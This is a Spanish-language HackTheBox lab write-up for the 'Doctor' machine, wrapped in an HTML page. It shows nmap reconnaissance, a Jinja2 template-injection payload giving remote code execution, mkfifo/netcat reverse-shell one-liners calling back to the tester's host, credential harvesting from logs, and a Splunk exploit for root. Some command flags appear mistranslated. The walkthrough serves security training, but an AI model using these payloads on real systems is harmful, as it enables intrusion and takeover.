


<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Post - Doctor</title>
    <link href="https://fonts.googleapis.com/css2?family=Merriweather:wght@400;700&family=Open+Sans:wght@400;600&display=swap" rel="stylesheet">
    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/10.7.2/styles/github.min.css">
    <style>
        body {
            font-family: 'Open Sans', sans-serif;
            max-width: 800px;
            margin: 0 auto;
            padding: 20px;
            color: #fff;
            background-color: #000;
            line-height: 1.6;
        }
        
        h1, h2, h3, h4, h5, h6 {
            font-family: 'Merriweather', serif;
            margin-bottom: 20px;
        }

        img {
            max-width: 100%;
            height: auto;
            margin: 20px 0;
            border-radius: 5px;
            box-shadow: 0 4px 6px rgba(255, 255, 255, 0.1);
        }

        pre {
            background-color: #222;
            padding: 10px;
            overflow-x: auto;
            border-radius: 5px;
        }

        code {
            font-family: 'Courier New', Courier, monospace;
            background-color: #222;
            padding: 2px 4px;
            border-radius: 3px;
        }

        blockquote {
            border-left: 4px solid #ccc;
            margin-left: 0;
            padding-left: 20px;
            font-style: italic;
            color: #ccc;
        }

        a {
            color: #fff;
            text-decoration: underline;
        }
    </style>
</head>
<body>
    <div id="post">
        <!-- Aquí se insertará el contenido del post en formato Markdown -->
    </div>

    <script src="https://cdnjs.cloudflare.com/ajax/libs/showdown/1.9.1/showdown.min.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/10.7.2/highlight.min.js"></script>
    <script>
        // Obtener el contenido del post en formato Markdown (puedes reemplazar esto con tu propia lógica)
        const markdownContent = `
# Máquina "Doctor" de HackTheBox

Caracteristicas: 

- Linux 
- Easy
- External
- Splunk
- Penetration Tester Level 1
- SSTI Exploitation
- A03:2021-Injection
- Enumeration
- Remote Code Execution
- Defense Mechanisms
- Clear Text Credentials
- SIEM
- Log Analysis
- Misconfiguration
- ssti
- ssti popen (rce)
- bypassing de un comand injection (rce)
- abusing adm group finding credentials in request logs
- splunk explottion en la escanalada


Util en:

- eWPT
- eWPTX v2
- OSWE

- sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.209 -oG allPorts

- sudo nmap -sCV -p22,80,8089 10.10.10.209 -oN targeted

<pre>
<code>
    2/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 59:4d:4e:c2:d8:cf:da:9d:a8:c8:d0:fd:99:a8:46:17 (RSA)
|   256 7f:f3:dc:fb:2d:af:cb:ff:99:34:ac:e0:f8:00:1e:47 (ECDSA)
|_  256 53:0e:96:6b:9c:e9:c1:a1:70:51:6c:2d:ce:7b:43:e8 (ED25519)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Doctor
8089/tcp open  ssl/http Splunkd httpd
|_http-server-header: Splunkd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
</code>
</pre>

vemos el puerto 80 y 8080 asi que les  lanzamos un whatweb.

- whatweb http://10.10.10.209

http://10.10.10.209 [200 OK] Apache[2.4.41], Bootstrap, Country[RESERVED][ZZ], Email[info@doctors.htb], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)],
 IP[10.10.10.209], JQuery[3.3.1], Script, Title[Doctor]

- whatweb http://10.10.10.209:8089

ERROR Opening: http://10.10.10.209:8089 - Connection reset by peer

como vemos la descripcion de nmap del puerto 8089 nos muestra ssl y no de http, asi que anviaremos https

- whatweb https://10.10.10.209:8089

y ahora si nos da una salida 
https://10.10.10.209:8089 [200 OK] Country[RESERVED][ZZ], HTTPServer[Splunkd], IP[10.10.10.209], Title[splunkd], UncommonHeaders[x-content-type-options], 
X-Frame-Options[SAMEORIGIN]

agregaremos al  etc hosts. Asi que podemos tener un dominio en el 80, podemos hacer virtual hosting. ingresamos los datos de 3 formas, una con la ip otra con el dominio 
y la otra con la ip al puerto 8089



vermos los 4 links y nada continuamos lanzando searchsploit splunk luego buscamos en google y podemos ver un local privilege scalation
https://github.com/cnotin/SplunkWhisperer2 nos pide usuario y clave asi que lo dejaremos guardado
volvemos a la pagina principal nos registramos y vemos un panel con un numero

- http://doctors.htb/home?page=1

que podemos modificarlo para testear

- http://doctors.htb/home?page=../../../../.././../etc/passwd

veremos el codigo fuente y podemos ver que hay una referencia a un directorio <a class="nav-item nav-link" href="/home">Home</a> y no se ve nada asi que agregamos al etc passwd

- whatweb http://doctors.htb 

<code>
<page>
    http://doctors.htb [302 Found] Cookies[session], Country[RESERVED][ZZ], HTTPServer[Werkzeug/1.0.1 Python/3.8.2], HttpOnly[session], IP[10.10.10.209], Python[3.8.2], RedirectLocation[http://doctors.htb/login?next=%2F], Title[Redirecting...], Werkzeug[1.0.1]
http://doctors.htb/login?next=%2F [200 OK] Bootstrap[4.0.0], Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/1.0.1 Python/3.8.2], IP[10.10.10.209], JQuery, PasswordField[password], Python[3.8.2], Script, Title[Doctor Secure Messaging - Login], Werkzeug[1.0.1]
</code>
</page>

ahora si podemos ver y al ver con wappalyzer nos muestra que corre flask 
lanzamos esta payload 

{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}} 



tenemos RCE! Ahora, probé una línea de shell inverso de la hoja de trucos de shell inverso de pentestmonkey . Esta fue mi carga útil final: 

- {{request.application.__globals__.__builtins__.__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10 .14.4 1234 >/tmp/f').read()}} 

configuramos nc y lanzamos. Tenemos shell la configuramos y seguimos.
A continuación, utilicé ssh-keygen para crear un id_rsa para la web y luego inicié sesión a través de SSH. 
una vez dentro lanzamos id y Podemos ver que tenemos el grupo adm. Una búsqueda rápida me dijo que los usuarios del grupo adm pueden leer los archivos /var/log. 
asi que vamos y ejecutamos

- grep -ir password * 2>/dev/null 

y es posible que hayamos encontrado una posible contraseña Guitar123. Intentamos ingresar con el usuario shaun y entramos con exito
sacamos la flag de user.

## Escalamiento de privilegios.

Ejecuté ps aux y vi que root está ejecutando el servidor splunkd: 
usaremos el exploi nuevamente pero esta vez desde shaun

- python3 PySplunkWhisperer2_remote.py --host doctor.htb --puerto 8089 --nombre de usuario shaun --contraseña Guitar123 --payload "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh 
-i 2>&1|nc 10.10.14.4 1234 >/tmp/f" --lhost 10.10.14.4 

y somos root

Algunos de los writeups en esta página, pueden tener contenido de otras páginas o tener muy pocas imágenes, esto 
debido a que en algunas de las máquinas que realice, no tome los apuntes o no tome capturas de pantalla, así que he decidido buscar varios writeups
y agregar lo que esté mejor explicado en cada uno para plasmarlo aquí, también si encuentra faltas de ortografía 
o cualquier error, Puedes contactarme a mi correo.

lerioxirit@proton.me

        `;
        
        // Convertir Markdown a HTML
        const converter = new showdown.Converter();
        const html = converter.makeHtml(markdownContent);

        // Insertar el HTML generado en el elemento con id "post"
        document.getElementById('post').innerHTML = html;

        // Resaltar la sintaxis del código
        hljs.initHighlightingOnLoad();
    </script>
</body>
</html>